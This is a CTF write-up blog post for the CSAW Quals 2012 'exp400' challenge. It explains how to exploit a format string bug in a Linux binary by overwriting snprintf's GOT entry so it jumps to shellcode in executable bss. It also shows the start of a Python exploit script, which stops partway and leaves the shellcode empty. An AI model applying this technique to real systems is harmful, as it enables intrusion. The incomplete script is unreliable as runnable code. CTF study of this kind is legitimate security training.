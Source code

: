 ```yaml
---
title: 'CSAW Quals 2012 &#8211; exp400'
author: awreece
layout: post
permalink: /?p=985
categories:
  - CTF
  - Write-Ups
---
```

### Overview

[challenge2][1] is an Linux x86 binary with a format string vulnerability. If our format string contains no common shells, it gets placed in bss so we can just jump directly to it.



### Writeup

We quickly find the interesting function and notice the obvious format string vulnerability (Some functions renamed for increased readability.)

[<img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-3.14.07-PM.png" alt="Vulnerable function" title="Vulnerable function" style="width:100%;" class="size-full wp-image-990" />][2] 

There are a couple of things we need to observe for this exploit:

  * The <tt>snprintf</tt> fills a buffer on the stack (there is actually a buffer overflow here we didn&#8217;t use but could have), so we can use it to get arguments we want on the stack.
  * The program will exit if it detects <tt>/bin/sh</tt>, <tt>/bin/bash</tt>, etc. in our string, so we cannot use shellcode with those as constants. Luckily, [my favorite shellcode][3] doesn&#8217;t have this problem.
  * Immediately after the <tt>snprintf</tt>, the function <tt>countdown</tt> makes another call to <tt>snprintf</tt>.
  * Our format string is initially placed in bss, which is at a known location and is executable.

But now we have everything we need for our exploit: we make a format string that overwrites the GOT address of <tt>snprintf</tt> to point to the area in bss with payload. The format string will have the form: <tt>shellcode + padding + addr_of_snprintf_got_hi + addr_of_snprintf_got_lo + format_string</tt>. Here is an exploit.

<pre>#!/usr/bin/python                                                               
import struct                                                                   
import socket                                                                   
import telnetlib                                                                
import sys                                                                      
import string

shellcode = ""
                                                           
got_addr = 0x804b044  # snprintf got.                                                            
target_val = 0x804b120  # Location of our payload in bss.                                                           
padding = "A"*(4 - (len(shellcode) % 4))                                          
first_part =  shellcode + padding + struct.pack('I', got_addr) + struct.pack('I', got_addr + 2) 
                                                                                  

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp400.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-3.14.07-PM.png
 [3]: http://www.shell-storm.org/shellcode/files/shellcode-606.php